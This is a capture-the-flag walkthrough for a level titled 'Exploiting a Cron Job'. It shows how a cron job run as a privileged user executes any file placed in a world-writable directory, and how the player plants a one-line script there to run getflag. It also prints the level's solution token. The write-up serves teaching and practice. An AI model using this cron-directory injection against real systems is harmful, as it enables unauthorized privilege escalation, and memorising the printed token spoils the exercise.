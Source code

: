 # Level 05 - Exploiting a Cron Job

## Step 1: Notice the mail notification

Immediately after logging in, we see a notification:
```
You have new mail.
```

## Step 2: Check the mailbox

Most Linux systems store user mail in this location:

```sh
ls -l /var/mail/level05
```

Let's see what is in that file:
```sh
cat /var/mail/level05
```

We can see that it is a cron job, which is executed every 2 minutes:

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Because of `su -c`, the script will be executed by the user `flag05`.

## Step 3: Inspect the script

Let's take a look at that file:

```sh
cat /usr/sbin/openarenaserver
```

We see the following script:
```sh
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

This code loops over files in the `/opt/openarenaserver/` directory and executes each one in bash with a 5-second CPU time limit.

Then it deletes the file.

## Step 4: Exploit the cron job

Let's create an executable in that directory to run `getflag`:

```sh
echo "/bin/getflag > /tmp/pass" > /opt/openarenaserver/sdfsd
```

This will create a file `/opt/openarenaserver/sdfsd` with a command to execute `/bin/getflag` and redirect its output to `/tmp/pass`.

After 2 minutes, we get:

```sh
cat /tmp/pass
```

```
Check flag. Here is your token: viuaaale9huek52boumoomioc
```
